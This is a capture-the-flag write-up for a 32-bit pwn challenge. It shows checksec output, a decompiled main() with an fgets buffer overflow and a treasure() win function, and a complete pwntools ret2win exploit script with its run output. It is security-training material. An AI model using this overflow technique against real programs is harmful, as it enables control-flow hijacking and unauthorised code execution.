

# [Pwn] smoll but angy

## 💡 Challenge Description



## 🔒 ELF Properties

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but angy]
└─$ file smoll-but-angy
smoll-but-angy: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=a7be88bfc79ba168486dd0ed96ac5bb84fadd3ee, for GNU/Linux 3.2.0, not stripped

┌──(rydzze㉿rydzze)-[/[Pwn] smoll but angy]
└─$ checksec --file=smoll-but-angy
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   2461 Symbols      No    0               0               smoll-but-angy
```

## ✨ Walkthrough

Buffer overflow vulnerability.

```c
// using IDA Hex-Rays

int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[128]; // [esp+0h] [ebp-84h] BYREF

  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  puts("You dare challenge me?");
  fgets(v4, 2048, stdin);
  puts("Very well, show me what you got!");
  return 0;
}

void __noreturn treasure()
{
  system("cat flag");
  exit(0);
}
```

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but angy]
└─$ ./smoll-but-angy
You dare challenge me?
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Very well, show me what you got!
Segmentation fault
```

32-bit ret2win ... What we can do is fill the buffer and then inject the `treasure()` addr to display the flag.

## ⚙ Full Script

```py
from pwn import *
elf = context.binary = ELF('./smoll-but-angy')

p = process('./smoll-but-angy')
# p = remote("IP_ADDR", PORT)

offset = 0x80 + 0x8
TREASURE_ADDR = elf.sym['treasure']
log.success(f"TREASURE_ADDR: {hex(TREASURE_ADDR)}")

payload = b'A' * offset + p32(TREASURE_ADDR)
p.sendlineafter(b"You dare challenge me?\n", payload)

flag = p.recvall(timeout=1).strip()
print(flag.decode())

p.close()
```

## 🛠 Exploit

```
┌──(rydzze㉿rydzze)-[/[Pwn] smoll but angy]
└─$ python solve.py
[*] '/[Pwn] smoll but angy/smoll-but-angy'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        No PIE (0x8048000)
    Stripped:   No
[+] Starting local process './smoll-but-angy': pid 1612
[+] TREASURE_ADDR: 0x80499a5
[+] Receiving all data: Done (42B)
[*] Process './smoll-but-angy' stopped with exit code 0 (pid 1633)
Very well, show me what you got!
fake_flag
```